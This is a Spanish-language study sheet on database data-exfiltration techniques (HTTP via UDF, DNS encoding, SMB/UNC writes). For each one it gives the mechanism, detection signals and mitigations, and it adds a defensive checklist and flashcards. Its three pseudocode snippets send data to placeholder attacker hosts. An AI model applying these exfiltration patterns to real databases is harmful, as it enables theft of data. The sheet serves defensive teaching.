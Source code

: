 Estructura concisa para memorización operativa: técnica → mecanismo → requisitos → señales detectables → pseudocódigo (no operativo) → mitigaciones → fichas rápidas.

### 1) HTTP (via UDF / external script)

* **Qué hace**: envía datos por HTTP a un servidor controlado desde el motor DB mediante funciones externas.
* **Mecanismo**: DB invoca UDF o script capaz de realizar peticiones HTTP; datos se envían en URL o cuerpo.
* **Requisitos**: capacidad de instalar/ejecutar UDF o ejecutar procesos externos; privilegios de FILE/CREATE FUNCTION o acceso al sistema.
* **Señales detectables**: conexiones HTTP salientes desde servidor BD a dominios no autorizados; picos de tráfico HTTP en procesos DB; logs de llamadas a UDF.
* **Pseudocódigo (NO ejecutable)**:

```
-- INVOCACIÓN ilustrativa (reemplazar por <FUNC> / <URL> / <DATA>)
SELECT <FUNC_HTTP>('http://<ATTACKER_DOMAIN>/path', ENCODE(<DATA>));
```

* **Mitigación**: bloquear egress HTTP desde DB, restringir instalación de UDF, auditar CREATE FUNCTION, WAF/IDS para destinos inusuales.

---

### 2) DNS exfiltration

* **Qué hace**: codifica datos en nombres de dominio y provoca resoluciones DNS hacia un servidor autorizado por el atacante.
* **Mecanismo**: DB provoca resolución DNS (directa o vía UDF/script) a subdominios que contienen fragmentos codificados.
* **Requisitos**: capacidad de realizar consultas DNS desde el host DB; control sobre servidor DNS receptor; privilegios para ejecutar consultas o UDF.
* **Señales detectables**: numerosas consultas DNS a subdominios largos/aleatorios; consultas a dominios externos no usados; patrones de alta entropía en registros DNS.
* **Pseudocódigo (NO ejecutable)**:

```
-- patrón conceptual
consulta_dns("<BASE32(OCTETOS_DE_DATOS)>." + "<ATTACKER_DOMAIN>")
```

* **Mitigación**: filtrar/registrar egress DNS, limitar servidores DNS recursivos, alertar por subdominios de alta entropía, DNS sinkhole corporativo.

---

### 3) SMB / UNC write (escritura en share)

* **Qué hace**: escribe resultados de consultas en un recurso compartido remoto accesible por SMB/UNC.
* **Mecanismo**: DB escribe fichero vía ruta UNC o usando mount/smbclient desde el host; Windows facilita rutas `\\HOST\share\file`.
* **Requisitos**: capacidad del proceso DB para acceder a la red de archivos (credenciales o anon), privilegios para OUTFILE o ejecución de comandos en host.
* **Señales detectables**: conexiones SMB salientes; creación de archivos en shares externos; logs de autenticación a shares inusuales.
* **Pseudocódigo (NO ejecutable)**:

```
-- patrón conceptual
RESULT -> escribir_en_share("\\\\<ATTACKER_HOST>\\share\\<archivo>.txt")
```

* **Mitigación**: bloquear egress SMB, validar destinos de UNC, deshabilitar escritura remota desde procesos DB, auditar INTO OUTFILE y permisos de filesystem.

---

### Comparativa rápida (tabla mental)

* **Visibilidad**: DNS (alta chance de evadir HTTP filters) > HTTP (más detectable por IDS/Proxy) > SMB (detectable en redes Windows).
* **Facilidad en Windows**: SMB > HTTP (si hay UDF) > DNS.
* **Requisitos de privilegios**: todos requieren más que usuario SELECT en la mayoría de configuraciones; UDF/OUTFILE/exec elevan la barra.

---

### Señales de detección y queries de auditoría (conceptuales)

* Registrar/alertar:

  * Conexiones salientes desde host DB a IPs/dominios no permitidos.
  * Creación de funciones UDF (`CREATE FUNCTION`) y carga de librerías.
  * Uso de INTO OUTFILE o llamadas inusuales a procedimientos externos.
  * Consultas DNS repetitivas a nombres de alto-entropía.
* Regla IDS conceptual:

```
if (outbound_protocol in [HTTP,DNS,SMB]) and (destination not in allowlist) and (payload_pattern == high_entropy or repeated small fragments) then alert
```

---

### Checklist de prioridades defensivas (implementación inmediata)

1. Restringir egress: solo permitir destinos necesarios desde hosts BD.
2. Deshabilitar instalación de UDFs salvo necesidad explícita; auditar cualquier CREATE FUNCTION.
3. Restringir permisos FILE/OUTFILE y funciones que llaman al SO.
4. Habilitar logging de DNS recursivo y analizar por entropía y patrones de subdominios.
5. Monitor SMB/UNC saliente; bloquear puertos SMB en firewall saliente para servidores DB.
6. Revisar parches/privilegios del motor DB y principios de menor privilegio para cuentas de servicio.

---

### Flashcard (para memoria rápida)

* **Pregunta**: ¿Qué protocolo usa subdominios con datos codificados?
  **Respuesta**: DNS exfiltration — codifica datos dentro de nombres de dominio y provoca resoluciones.

* **Pregunta**: ¿Qué indicador detecta HTTP-based exfiltration desde BD?
  **Respuesta**: Conexiones HTTP salientes desde proceso DB a dominios no autorizados; llamadas a UDF HTTP.

* **Pregunta**: Mitigación prioritaria contra SMB exfiltration.
  **Respuesta**: Bloquear egress SMB; deshabilitar escritura remota desde procesos DB.

---

### Glosario mínimo

* **UDF**: User Defined Function — código cargado en el motor DB que puede ejecutar operaciones fuera del SQL estándar.
* **OUTFILE / INTO OUTFILE**: instrucción que puede escribir archivos en el sistema de ficheros desde la DB.
* **Egress filtering**: control de salidas de red desde un host para evitar comunicaciones no autorizadas.
* **Entropía DNS**: medida estadística para detectar dominios que contienen datos codificados.

---

